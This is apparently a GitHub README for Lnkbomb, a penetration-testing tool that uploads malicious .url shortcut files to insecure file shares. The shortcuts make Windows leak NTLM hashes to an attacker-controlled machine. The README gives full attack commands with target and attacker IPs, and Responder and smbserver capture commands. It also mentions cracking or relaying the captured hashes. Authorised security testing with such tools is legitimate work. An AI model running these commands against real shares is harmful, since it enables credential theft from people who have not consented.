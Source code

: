 # Lnkbomb

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)

<p align="center">
  <img src="https://github.com/dievus/lnkbomb/blob/dev/images/example.png" />
</p>

Lnkbomb is used for uploading malicious shortcut files to insecure file shares.  The vulnerability exists due to Windows looking for an icon file to associate with the shortcut file.  This icon file can be directed to a penetration tester's machine running Responder or smbserver to gather NTLMv1 or NTLMv2 hashes (depending on configuration of the victim host machine).  The tester can then attempt to crack those collected hashes offline with a tool like Hashcat, or relay them to a tool like ntlmrelayx for further exploitation.

The payload file is uploaded directly to the insecure file specified by the tester in the command line. The tester includes their IP address as well, which is written into the payload.

Version 2.0 is a total rebuild of the tool and uses the pysmb library, permitting unauthenticated and authenticated payload drops.

## Python Usage
Installing Lnkbomb

Note that the project works consistently in Windows. It may have issues in Linux.

```git clone https://github.com/dievus/lnkbomb.git```

Change directories to lnkbomb and run:

```python3 lnkbomb.py -h```

This will output the help menu, which contains the following flags:

```-h, --help - Lists the help options```

```-t, --target - Specifies the target IP address```

```-a, --attacker - Specifies the tester's attack machine IP address```

```-r, --recover - Used to remove the payload when testing is completed (ex. -r payloadname.url)```

```-w, --windows - New command - required for setting appropriate ports for Windows shares```

```-l, --linux - New command - required for setting appropriate ports for Linux shares```

```-n, --netbios - New command - netbios name for targeted Windows machines must be included```

Examples of full commands include:

```python3 .\lnkbomb.py -t 192.168.1.79 -a 192.168.1.21 -s Shared -u themayor -p Password123! -n dc01 --windows```

```python3 .\lnkbomb.py -t 192.168.1.79 -a 192.168.1.21 -s Shared -u themayor -p Password123! -n dc01 --windows -r dicnwdsebl.url```

You will need to utilize a tool like Responder or smbserver to capture the NTLM hash.  
```responder -I eth0 -dwFP -v```

or

```smbserver.py . . -smb2support```


<p align="center">
  <img src="https://github.com/dievus/lnkbomb/blob/dev/images/example2.png" />
</p>

### Notes
Please keep in mind that this tool is meant for ethical hacking and penetration testing purposes only. I do not condone any behavior that would include testing targets that you do not currently have permission to test against.  

This tool may or may not work depending on target patching and versioning. User experience may vary.

I know it's .url shortcuts and not .lnk extensions. I do it to trigger you.
